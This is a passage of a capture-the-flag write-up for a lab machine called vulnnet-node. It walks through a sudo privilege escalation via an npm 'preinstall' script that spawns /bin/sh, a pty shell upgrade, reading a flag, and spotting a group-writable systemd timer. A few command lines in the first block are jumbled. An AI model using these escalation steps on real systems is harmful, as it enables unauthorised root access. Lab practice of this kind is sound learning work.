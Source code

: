 <p>https://gtfobins.github.io/gtfobins/npm/</p>

![image](https://github.com/user-attachments/assets/430004a7-78a8-4683-9b45-05af5ff30ac3)


```bash
ww@vulnnet-node:~/VulnNet-Node$ mkdir /dev/shm/rosana
www@vulnnet-node:~/VulnNet-Node$ TF=/dev/shm/rosana
 $TF/package.json~/VulnNet-Node$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > 
e-perm inet-node:~/VulnNet-Node$ sudo -u serv-manage /usr/bin/npm -C $TF --unsafe

> @ preinstall /dev/shm/rosana
> /bin/sh

$ whoami
serv-manage
$ 
```


```bash
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
serv-manage@vulnnet-node:/dev/shm/rosana$ 
```

```bash
serv-manage@vulnnet-node:~$ ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
serv-manage@vulnnet-node:~$ cat user.txt
THM{064640a2f880ce9ed7a54886f1bde821}
```

<br>
<br>

```bash
serv-manage@vulnnet-node:~$ sudo -l
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
```


```bash
serv-manage@vulnnet-node:~$ systemctl status vulnnet-auto.timer
\u25cf vulnnet-auto.timer - Run VulnNet utilities every 30 min
   Loaded: loaded (/etc/systemd/system/vulnnet-auto.timer; disabled; vendor pres
   Active: inactive (dead)
  Trigger: n/a

serv-manage@vulnnet-node:~$ ls -la /etc/systemd/system/vulnnet-auto.timer
-rw-rw-r-- 1 root serv-manage 167 Jan 24  2021 /etc/systemd/system/vulnnet-auto.timer
```
